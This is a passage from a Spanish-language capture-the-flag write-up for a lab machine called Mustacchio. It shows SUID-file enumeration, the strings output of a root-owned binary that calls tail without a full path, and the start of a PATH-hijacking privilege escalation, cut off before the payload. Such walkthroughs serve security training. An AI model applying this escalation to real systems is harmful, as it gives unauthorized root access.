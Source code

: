     Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
    applicable law.

    barry@mustacchio:~$ ls
    user.txt
    ```

-   Ahora precedemos a [enumerar para escalar privilegios](https://byte-mind.net/enumeracion-y-escalado-de-privilegios-en-linux/), buscamos archivos con permisos de SIUD
    
    ```bash
    barry@mustacchio:~$ find / -perm -u=s -type f 2>/dev/null
    /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
    /usr/lib/eject/dmcrypt-get-device
    /usr/lib/policykit-1/polkit-agent-helper-1
    /usr/lib/snapd/snap-confine
    /usr/lib/openssh/ssh-keysign
    /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    /usr/bin/passwd
    /usr/bin/pkexec
    /usr/bin/chfn
    /usr/bin/newgrp
    /usr/bin/at
    /usr/bin/chsh
    /usr/bin/newgidmap
    /usr/bin/sudo
    /usr/bin/newuidmap
    /usr/bin/gpasswd
    /home/joe/live_log
    /bin/ping
    /bin/ping6
    /bin/umount
    /bin/mount
    /bin/fusermount
    /bin/su
    ```
- Un archivo nos llama la atención ``/home/joe/live_log``

```bash
barry@mustacchio:/home/joe$ ls -la
total 28
drwxr-xr-x 2 joe  joe   4096 Jun 12 15:48 .
drwxr-xr-x 4 root root  4096 Jun 12 15:48 ..
-rwsr-xr-x 1 root root 16832 Jun 12 15:48 live_log
barry@mustacchio:/home/joe$ strings live_log
.
.
.
u+UH
[]A\A]A^A_
Live Nginx Log Reader
tail -f /var/log/nginx/access.log
:*3$
GCC: (Ubuntu 9.3.0-17ubuntu1~20.04) 9.3.0
.
.
.
```
- Al al hacer strings vemos algo que nos llama la atención, que se puede escalar privilegios a traves de un [privilege-escalation-using-path](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/). Llego a esta conclusion ya que este archivo lo ejecuta el usuario root, entonces si lograrmos secuestrar el PATH para que nuestro archivo ``tail`` se ejecute dandonos una shell con privilegios de administrador
- Vamos a crear una carpeta temporal para meter nuestro archivo tail
```bash
barry@mustacchio:/home/joe$ mktemp -d 
```